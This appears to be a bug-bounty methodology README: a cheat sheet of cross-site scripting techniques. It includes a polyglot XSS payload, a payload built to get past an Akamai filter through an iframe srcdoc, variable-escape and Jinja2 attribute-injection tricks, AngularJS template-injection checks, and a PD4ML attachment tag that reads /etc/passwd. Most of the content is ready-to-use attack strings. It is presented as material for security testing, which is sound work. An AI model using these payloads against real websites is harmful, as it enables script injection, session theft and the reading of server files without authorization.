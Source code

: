 ### XSS ployglot
```
\u0022\u003c%26quot;%26gt;%26lt;"';}};"></ScRipt><svg/onload=confirm(69)>${{7*7}}
```

#### XSS in SVG image 
![image](https://github.com/Sameer484/methodology/assets/110039044/e40a3018-7707-457b-a054-bf3bb3832674)


##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````
---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`

